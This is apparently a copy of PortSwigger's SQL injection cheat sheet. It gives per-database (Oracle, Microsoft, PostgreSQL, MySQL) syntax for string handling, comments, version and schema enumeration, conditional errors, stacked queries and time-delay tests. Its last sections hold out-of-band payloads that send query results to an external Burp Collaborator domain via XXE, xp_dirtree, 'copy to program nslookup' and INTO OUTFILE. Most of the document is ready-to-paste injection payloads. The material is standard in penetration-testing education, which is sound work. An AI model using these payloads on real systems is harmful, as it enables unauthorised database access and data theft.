 # SQL injection cheat sheet
This [SQL injection](https://portswigger.net/web-security/sql-injection) cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

## String concatenation
You can concatenate together multiple strings to make a single string.
```
Oracle	    'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	    'foo' 'bar' [Note the space between the two strings] 
            CONCAT('foo','bar')
```

## Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ``ba``.

```
Oracle	    SUBSTR('foobar', 4, 2)
Microsoft	SUBSTRING('foobar', 4, 2)
PostgreSQL	SUBSTRING('foobar', 4, 2)
MySQL	    SUBSTRING('foobar', 4, 2)
```

## Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.

```
Oracle	    --comment
Microsoft	--comment
            /*comment*/
PostgreSQL	--comment
            /*comment*/
MySQL	    #comment
            -- comment [Note the space after the double dash]
            /*comment*/
```

## Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

```
Oracle	    SELECT banner FROM v$version
SELECT      version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	    SELECT @@version
```

## Database contents
You can list the tables that exist in the database, and the columns that those tables contain.

```
Oracle	    SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	    SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

## Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.

```
Oracle	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL	    SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

## Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

```
Oracle	    Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	    QUERY-1-HERE; QUERY-2-HERE
```

### Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

```
Oracle  	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	    SELECT sleep(10)
```

## Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.

```
Oracle	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL   	SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
```

## DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

```
Oracle      The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
            SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

            The following technique works on fully patched Oracle installations, but requires elevated privileges:
            SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')
Microsoft	exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
PostgreSQL	copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
MySQL	    The following techniques work on Windows only:
            LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
            SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```

## DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

```
Oracle	    SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
PostgreSQL	create OR replace function f() returns void as $$
            declare c text;
            declare p text;
            begin
            SELECT into p (SELECT YOUR-QUERY-HERE);
            c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
            execute c;
            END;
            $$ language plpgsql security definer;
            SELECT f();
MySQL	    The following technique works on Windows only:
            SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```